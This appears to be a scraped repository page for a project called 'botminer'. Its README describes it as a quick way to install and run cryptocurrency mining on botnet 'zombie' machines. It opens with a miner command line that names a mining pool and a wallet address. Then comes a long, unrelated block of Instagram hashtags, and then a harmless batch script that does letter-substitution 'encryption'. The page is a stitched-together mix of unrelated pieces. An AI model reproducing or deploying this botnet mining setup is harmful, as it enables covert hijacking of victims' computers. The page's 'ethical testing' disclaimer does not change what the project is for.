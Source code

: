 "MINER"    -a curvehash -o stratum+tcp://curvehash.na.mine.zergpool.com:3343 -u PFMAoXTxv92xyacKK3nrRv6ogfjGWhb583 -p c=PLSR,mc=PLSR,ID=rig1 -t 4,4


# botminer
A rapid install and run git for botnet zombie crypto mining. 
-To be used ethically for testing purposes only.
#love
#instagood
#photooftheday
#fashion
#beautiful
#happy
#cute
#tbt
#like4like
#followme
#picoftheday
#follow
#me
#selfie
#summer
#art
#instadaily
#friends
#repost
#nature
#girl
#fun
#style
#smile
#food
#instalike
#likeforlike
#family
#travel
#fitness


@echo off
setlocal ENABLEEXTENSIONS ENABLEDELAYEDEXPANSION
title Encrypt
color a
:mainmenu
set savefile=on
::set Encrypt=Nothing 
(set CHAR[b]=a)
(set CHAR[r]=e)
(set CHAR[o]=i)
(set CHAR[w]=o)
(set CHAR[n]=n)
(set CHAR[e]=y)

(set CHAR[c]=c)
(set CHAR[d]=d)
(set CHAR[f]=f)
(set CHAR[g]=g)
(set CHAR[h]=h)
(set CHAR[j]=j)
(set CHAR[k]=k)
(set CHAR[l]=l)
(set CHAR[m]=m)
(set CHAR[p]=p)
(set CHAR[q]=q)
(set CHAR[s]=s)
(set CHAR[t]=t)
(set CHAR[v]=w)
(set CHAR[x]=x)
(set CHAR[]=z)
echo Enter a string to encrypt:
set /p Encrypt=
cls
set Encrypt2=%Encrypt%
set "EncryptOut="
:encrypt2
set char=%Encrypt2:~0,1%
set Encrypt2=%Encrypt2:~1%
set EncryptOut=%EncryptOut%!CHAR[%char%]!
if not "%Encrypt2%"=="" goto encrypt2
echo Input string: %Encrypt%
echo.
echo Output string: %EncryptOut%
set string=%EncryptOut%
set temp_str=%string%
set str_len=0
:lengthloop
if defined temp_str (
set temp_str=%temp_str:~1%
set /A str_len += 1
goto lengthloop )
echo.
echo Output string is %str_len% characters long!
if "%savefile%"=="on" echo.%EncryptOut%>>%~d0%~p0encrypted.txt
echo.
pause
cls
goto mainmenu
